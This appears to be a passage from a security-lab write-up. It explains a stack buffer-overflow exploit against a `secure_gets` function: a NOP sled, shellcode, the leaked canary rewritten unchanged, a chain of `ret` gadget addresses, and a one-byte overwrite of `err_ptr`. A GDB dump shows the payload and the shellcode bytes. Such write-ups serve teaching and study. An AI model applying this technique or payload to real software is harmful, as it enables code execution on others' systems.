 By doing so, we learned that the stack canary is 16 bytes away from the `rip` of `secure_gets`, the `err_ptr` variable is 44 bytes away from the `rip` of `secure_gets`, and the `ret` instruction is 41 bytes away from the `printf` function.

### Exploit Structure

The exploit has five parts:

1. Write 184 `0x90` characters (no-op instruction). The 184 comes from subtracting the length of the shellcode (72 bytes) from the length of the `buf` variable (256 bytes).
2. Fill the rest of the `buf` variable with the shellcode.
3. Overwrite the stack canary with itself (obtained from the output of the program).
4. Write 12 dummy bytes to overwrite the compiler padding and `sfp` of the function `secure_gets`.
5. Finally, overwrite everything up to but not including the variable `err_ptr` (a total of 44 bytes, or 11 4-byte words) with the address of a `ret` instruction (obtained by adding the offset of `ret` instruction relative to `printf` to the dynamic address of `printf` obtained from the output of the program). 

### Exploit GDB Output

```c
(gdb) x/80x buf
0xffeb2c9c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2cac:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2cbc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2ccc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2cdc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2cec:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2cfc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2d0c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2d1c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2d2c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2d3c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffeb2d4c:     0x90909090      0x90909090      0xdb31c031      0xd231c931
0xffeb2d5c:     0xb05b32eb      0xcdc93105      0xebc68980      0x3101b006
0xffeb2d6c:     0x8980cddb      0x8303b0f3      0x0c8d01ec      0xcd01b224
0xffeb2d7c:     0x39db3180      0xb0e674c3      0xb202b304      0x8380cd01
0xffeb2d8c:     0xdfeb01c4      0xffffc9e8      0x414552ff      0x00454d44
0xffeb2d9c:     0x3d180ddd      0x41414141      0x41414141      0x41414141
0xffeb2dac:     0xf7eb7113      0xf7eb7113      0xf7eb7113      0xf7eb7113
0xffeb2dbc:     0xf7eb7113      0xf7eb7113      0xf7eb7113      0xf7eb7113
0xffeb2dcc:     0xf7eb7113      0xf7eb7113      0xf7eb7113      0xffeb2d00
```

After 184 bytes of no-op instruction (`0x90`), the shellcode fills the rest of the `buf` variable, followed by the stack canary unchanged (overwritten with itself) and 12 bytes of garbage. After that, starting from and including the `rip` of `secure_gets` up to but not including the `err_ptr` variable is overwriten with the address of the `ret` instruction (*0xf7eb7113*). Finally, the LSB of the `err_ptr` variable is overwriten with `\x00`, making it pointing to the middle of the "no-op sled" in buffer.
